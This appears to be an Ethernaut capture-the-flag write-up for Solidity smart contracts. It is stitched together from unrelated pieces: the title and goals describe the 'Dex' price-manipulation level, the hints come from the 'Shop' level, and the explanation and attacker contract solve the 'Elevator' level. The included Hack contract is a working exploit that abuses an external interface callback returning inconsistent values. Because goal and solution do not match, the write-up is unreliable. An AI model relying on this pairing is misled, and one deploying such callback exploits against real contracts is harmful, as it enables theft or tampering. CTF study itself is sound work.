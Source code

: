 # Dex 1 Ethernaut

## Goals

=> Hack the basic DEX contract below and steal the funds by price manipulation.

=> You will start with 10 tokens of token1 and 10 of token2. The DEX contract starts with 100 of each token.

=> Manage to drain all of at least 1 of the 2 tokens from the contract, and allow the contract to report a "bad" price of the assets.

### Hints

- Shop expects to be used from a Buyer
- Understanding restrictions of view functions

- So when looking at the goTo function you see you need to fullfill two conditions at first `building.isLastFloor(_floor)` needs to return false to get into the if case then `building.isLastFloor(_floor)` needs to return true to assign the value true to `top` all of this needs to be called by a "building" so I made a contract that takes the elevator contract address as input and implements the Building interface, from that contract I can call the `elevator.goTo()` with an arbitrary uint, which then calls back to my hack contract which will set the number to 0 (my floorCounter) which then gets increased by one `floorCounter++;`, the 0 gets evaluated to false through my ternary operator, the second time `building.isLastFloor(_floor)` is getting called we assign the now increased floorCounter as the new number so now it will return true thus top = true

### Attacker Contract

```solidity
contract Hack {
    Elevator public elevator;
    Building public building;
    uint private floorCounter;

    constructor(address _elevatorAddress) {
        building = Building(address(this));
        elevator = Elevator(_elevatorAddress);
    }

    function isLastFloor(uint _floor) external returns (bool) {
        _floor = floorCounter;
        floorCounter++;
        return _floor == 0 ? false : true;
    }

    function attack() external {
        elevator.goTo(1234);
    }
}
```
